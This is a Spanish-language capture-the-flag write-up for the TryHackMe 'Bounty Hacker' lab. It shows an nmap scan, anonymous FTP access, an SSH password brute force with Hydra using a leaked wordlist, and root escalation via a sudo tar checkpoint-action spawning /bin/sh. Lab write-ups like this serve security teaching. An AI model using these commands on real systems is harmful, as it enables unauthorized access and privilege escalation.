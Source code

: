 ```yaml
---
layout: post
author: Temerio
cover: ![](https://i.imgur.com/qodkcem.jpg)
---
```

![Bounty Hacker](https://i.imgur.com/qodkcem.jpg)
*You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!*

Puedes encontrar la Room [aquí](https://tryhackme.com/room/cowboyhacker) 
___

### Enumeration

```bash
┌──(temerio㉿Hackademy)-[~]
└─$ sudo nmap -p- -sS --min-rate 5000 -Pn 10.10.107.126
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-28 16:38 EDT
Nmap scan report for 10.10.107.126
Host is up (0.27s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 127.96 seconds
```
Vemos 3 puertos abiertos y nos conectamos al sitio web(Port 80)
![WebPage](https://i.imgur.com/swkGsAb.png?1)
Al no encontrar nada probamos con el siguiente puerto FTP (Port 21) e intentamos loguearnos como "Anonymous".
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ ftp 10.10.107.126    
Connected to 10.10.107.126.
220 (vsFTPd 3.0.3)
Name (10.10.107.126:temerio): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
Al dejarnos ingresar procedemos a listar el contenido.
```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```
El File Transfer Protocol (FTP) contiene 2 archivos:
- locks.txt
- task.txt

Procedemos a descargarlo mediante el comando "get".
```bash
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (2.5071 MB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (535.5343 kB/s)
```
Una vez descargados los archivos procedemos a visualizarlo en nuestra terminal mediante el comando "cat".
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
Podemos visualizar un nombre en este archivo llamado *lin* este nos puede servir más adelante, continuemos con el siguiente archivo.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ cat locks.txt       
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
### Bruteforce
Todo esto se parece a un diccionario de fuerza bruta, usaremos *Hydra* para intentar acceder al sistema.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ hydra -l lin -P /home/temerio/Desktop/Thm/BountyHacker/locks.txt 10.10.107.126 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-28 18:53:45
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.107.126:22/
[22][ssh] host: 10.10.107.126   login: lin   password: (Pass)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-28 18:53:56
```
Mediante Hydra logramos conseguir la contraseña para loguearnos por SSH (Port 22).
Procedemos a conectarnos a la PC de lin:
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ ssh lin@10.10.107.126                                                                  
The authenticity of host '10.10.107.126 (10.10.107.126)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.107.126' (ECDSA) to the list of known hosts.
lin@10.10.107.126's password: (UsarPass)
```
```bash
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ whoami
lin
lin@bountyhacker:~/Desktop$ 

```
Logramos ingresar con exito, estamos en la Pc de lin, ahora debemos ver que archivos tiene.
```bash
lin@bountyhacker:~/Desktop$ ls
user.txt
```
Encontramos la Flag del USER.
```bash
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{UserFlag}
```
### Privilege Escalation
Lo que ahora queda es encontrar una manera de escalar nuestros privilegios para convertirnos en root y eventualmente conseguir la flag de root.
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
Ahora sabemos que el usuario lin tiene permiso para ejecutar **/bin/tar** como root, esto podría ser de gran ayuda para escalar privilegios.

Mi primer lugar es ir siempre a https://gtfobins.github.io/ para buscar posibles comandos para escalar privilegios mediante un binario específico con permisos especiales.
![GTFObins](https://i.imgur.com/Oh6qmye.png)
Busque **tar** en la barra de búsqueda y haga clic en la misma, desplácese hacia abajo hasta SUDO.
![GTFObinsudo](https://i.imgur.com/1gqBJ48.png)

Siempre debes leer la descripción. Se ve bastante bien para mí, no puedo resistirme a ejecutarlo y obtener root. Vamos a ver. Dedos cruzados..
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
```
Hemos elevado con éxito nuestros privilegios y podemos confirmar que ahora somos root.
Tengo una última cosa que hacer y hemos terminado.. Necesitamos obtener la Flag de Root.
```bash
cat /root/root.txt
THM{RootFlag}
```
___
Eso es todo por esta room, espero que te haya gustado y mantente siempre en #HackMode!
*.-Temerio*
